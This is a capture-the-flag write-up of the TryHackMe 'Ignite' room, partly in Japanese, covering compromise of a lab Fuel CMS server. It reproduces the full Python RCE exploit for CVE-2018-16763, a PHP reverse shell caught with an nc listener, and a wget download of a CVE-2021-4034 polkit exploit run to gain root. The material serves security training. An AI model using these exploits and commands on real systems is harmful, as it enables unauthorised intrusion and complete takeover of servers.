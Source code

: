 ## Ignite
https://tryhackme.com/room/ignite

### Enum
```
nmap -sC -sV -T4 10.10.120.220 -vv

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-title: Welcome to FUEL CMS
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

![image](https://user-images.githubusercontent.com/6504854/179013810-96873376-b3e6-48fb-b648-b49ed2e56201.png)

```
searchsploit FUEL CMS

--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                     | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                     | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                     | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)    | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)           | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticate | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)             | php/webapps/50884.txt
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
```
searchsploit -x 47138.py

Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
File Type: Python script, ASCII text executable
```
```
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py 47138.py
vi 47138.py
```
```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

#url = "http://127.0.0.1:8881"
url = "http://10.10.120.220:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print (r.text[0:dup])
```

![image](https://user-images.githubusercontent.com/6504854/179014084-39303845-742a-4bf6-988c-aef880aa10d4.png)

I runned Burp Proxy 8080..
python2 47138.py

![image](https://user-images.githubusercontent.com/6504854/179014686-2220414b-d0cb-455d-8174-2608b10c680d.png)

🏴OK. I injected RCE.

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.128.199 - - [14/Jul/2022 23:29:13] "GET /1.php HTTP/1.1" 200 -
10.10.128.199 - - [14/Jul/2022 23:29:15] "GET /1.php HTTP/1.1" 200 -
```

![image](https://user-images.githubusercontent.com/6504854/179015523-ce9ca787-4631-4364-9093-35af65b0d49b.png)

![image](https://user-images.githubusercontent.com/6504854/179015785-05d69009-0e23-450b-a8c2-c304a0ac7932.png)

1.php is Revers-Shell(@Penetest Monkey 🐵).

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

なんかいっぱいできるがヨシ 🐱👉ﾖｼ

### Flag
```
nc　-lnvp 4444
curl http://10.10.120.220/1.php
```

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.4.63.222] from (UNKNOWN) [10.10.128.199] 57900
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:29:41 up 11 min,  0 users,  load average: 2.03, 0.89, 0.53
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')";
www-data@ubuntu:/$ sudo -l
[sudo] password for www-data:
```
😿


```
www-data@ubuntu:/$ ls -la /usr/bin/pkexec
ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
```
😼 -rwsr-xr-x

Polkit.tar is CVE-2021-4034 exploit and made it tarball.

https://github.com/berdav/CVE-2021-4034

```
www-data@ubuntu:$ cd /tmp 
www-data@ubuntu:/tmp$ wget http://10.4.63.222/polkit.tar
--2022-07-14 07:36:47--  http://10.4.63.222/polkit.tar
Connecting to 10.4.63.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 235520 (230K) [application/x-tar]
Saving to: 'polkit.tar'

polkit.tar          100%[===================>] 230.00K   114KB/s    in 2.0s

2022-07-14 07:36:50 (114 KB/s) - 'polkit.tar' saved [235520/235520]

www-data@ubuntu:/tmp$ tar -xvf polkit.tar
www-data@ubuntu:/tmp$ cd CVE-2021-4034
www-data@ubuntu:/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

😸Thank you for your time. Enjoy!


